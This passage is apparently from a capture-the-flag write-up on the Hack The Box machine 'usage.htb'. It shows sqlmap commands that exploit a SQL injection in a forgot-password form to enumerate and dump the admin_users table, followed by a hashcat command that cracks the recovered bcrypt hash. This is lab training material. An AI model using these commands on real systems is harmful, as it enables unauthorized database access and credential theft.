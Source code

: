 ```bash
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
...
```

We will now look for columns in table `admin_users`:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --level 5 --risk 3 --batch -T admin_users –columns
...
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| name           | varchar(255) |
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) |
+----------------+--------------+
...
```

We can now try to get some data from the table:
```bash
$ sqlmap -r forgot_pass_req.txt -p email --level 5 --risk 3 --batch -T admin_users -C name,username,password –dump
```
We found 1 entry, with username `admin`, and a hashed password.

## Getting admin access

The hashed password we got starts with `$2y$`, and looking online we see that it is a `bcrypt hash in modular crypt format`, and corresponds to mode `3200` in hashcat:
```bash
$ hashcat -m 3200 -a 0 -o cracked.txt bcrypt_hash.txt /usr/share/wordlists/rockyou.txt
```

Now we will try to get in as admin in `admin.usage.htb`.

On the Dashboard we find `PHP/8.1.2-1ubuntu2.14`, `Laravel version 10.18.0` and some dependencies:
|   |   |
|---|---
| php | ^8.1
| encore/laravel-admin | 1.8.18
| guzzlehttp/guzzle | ^7.2
| laravel/framework | ^10.10
| laravel/sanctum | ^3.2
| laravel/tinker | ^2.8

